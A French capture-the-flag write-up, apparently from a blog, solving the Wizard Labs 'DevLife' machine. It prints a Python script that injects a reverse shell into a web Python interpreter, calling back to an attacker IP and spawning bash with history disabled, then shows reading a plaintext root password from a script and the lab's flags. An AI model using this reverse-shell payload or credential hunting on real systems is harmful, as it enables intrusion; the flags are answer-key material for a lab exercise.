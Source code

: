 ```yaml
---
title: Solution du CTF DevLife de Wizard Labs
tags: [CTF,WizardLabs]
---
```


The Meaning of Life
-------------------

Sur ce CTF facile de [Wizard Labs](https://labs.wizard-security.net/) se trouve un site web d'un certain *Teddy Smith* indiquant qu'il travaille sur un interpréteur Python pour le web.  

Du coup on n'est pas trop surpris de trouver ceci à l'URL */dev* :  

![WizardLabs CTF Devlife python interpreter RCE](/assets/img/wizard-labs/devlife_interpreter.png)

On remarque vite que l'output des commandes ne nous est pas retourné. Il semble aussi que l'interpréteur a du mal à digérer les double-quotes, peut être le signe d'une injection de commande shell (on peut imaginer un appel du type *python2 -c "your\_payload\_here"*).  

Vu que l'on a du Python, autant s'y tenir. J'ai fait le script suivant pour passer plusieurs lignes au script PHP :  

```python
import requests

backdoor = (
    "import os;"
    "import socket;"
    "import pty;"
    "s=socket.socket();"
    "s.connect(('10.254.0.29',7777));"
    "os.dup2(s.fileno(),0);"
    "os.dup2(s.fileno(),1);"
    "os.dup2(s.fileno(),2);"
    "os.putenv('HISTFILE','/dev/null');"
    "pty.spawn('/bin/bash');"
    "s.close()"
)

response = requests.post(
        "http://10.1.1.20/dev/interpreter.php",
        data={"com": backdoor}
)
print(response.text)
```

Pour le néophyte Python, l'absence de virgules dans la variable *backdoor* n'est pas une typo, juste une façon de rendre plus lisible une longue chaîne.  

man sudoers
-----------

Une fois notre shell obtenu en tant que *www-data* j'ai vite remarqué différents scripts en relation avec *sudo* ou *su* :  

```plain
www-data@Devlife:/var/www/html/dev$ w
 13:38:45 up  2:13,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                11:26    2:10m  0.13s  0.05s nano sudo.py
www-data@Devlife:/var/www/html/dev$ last
tedd     pts/1        10.253.0.158     Sun Dec 23 13:21 - 13:22  (00:01)
root     tty1                          Sun Dec 23 11:26   still logged in
reboot   system boot  4.9.0-7-amd64    Sun Dec 23 11:25   still running
reboot   system boot  4.9.0-7-amd64    Sun Dec 23 11:21   still running
tedd     pts/1        10.254.0.6       Mon Sep 17 16:13 - 16:49  (00:36)
reboot   system boot  4.9.0-7-amd64    Sat Sep 15 21:19   still running

wtmp begins Sat Sep 15 21:19:20 2018
```

Même chose pour l'utilisateur *tedd* (en plus de son flag) :  

```
www-data@Devlife:/var/www/html/dev$ cat /home/tedd/user.txt
529c7a0e511974d8e8761430bb8a12bf93e44406

www-data@Devlife:/home/tedd/.env$ cat su.py

import pexpect
child = pexpect.spawn('su root')
child.expect ('Password:')
child.sendline('teddyxy2019')
child.expect('\$')
child.sendline('whoami')
```

Stockage du mot de passe... mauvaise idée :p  

Les utilisateurs *tedd* et *root* partagent le même mot de passe.  

```plain
root@Devlife:~# cat /root/root.txt
d360adc7e9c5ceb3588a79bd88e3cec7a5d14368
```


*Published April 04 2019 at 18:05*
